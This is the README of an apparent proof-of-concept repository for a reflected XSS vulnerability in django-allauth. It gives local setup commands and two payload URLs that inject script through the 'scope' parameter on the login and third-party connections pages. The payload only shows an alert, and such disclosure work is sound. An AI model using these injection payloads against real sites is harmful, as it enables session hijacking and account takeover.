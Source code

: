 # Proof of concept for a XSS vulnerability in django-allauth

## Requirements

- Python
- [uv](https://docs.astral.sh/uv/getting-started/installation/)

## Set up

```bash
$ git clone https://github.com/stsewd/poc-xss-django-allauth
$ cd poc-xss-django-allauth
$ uv run manage.py migrate
# Create a user to log into the application.
$ uv run manage.py createsuperuser
$ uv run manage.py runserver
```

## Proof of concept

**XSS in login page**

- While logged out, go to ``http://127.0.0.1:8000/accounts/login/?scope=</script><script>alert(document.domain)</script><script>``

**XSS in social connections page**

- Log in with the user you created.
- Go to ``http://127.0.0.1:8000/accounts/3rdparty/?scope=</script><script>alert(document.domain)</script><script>``
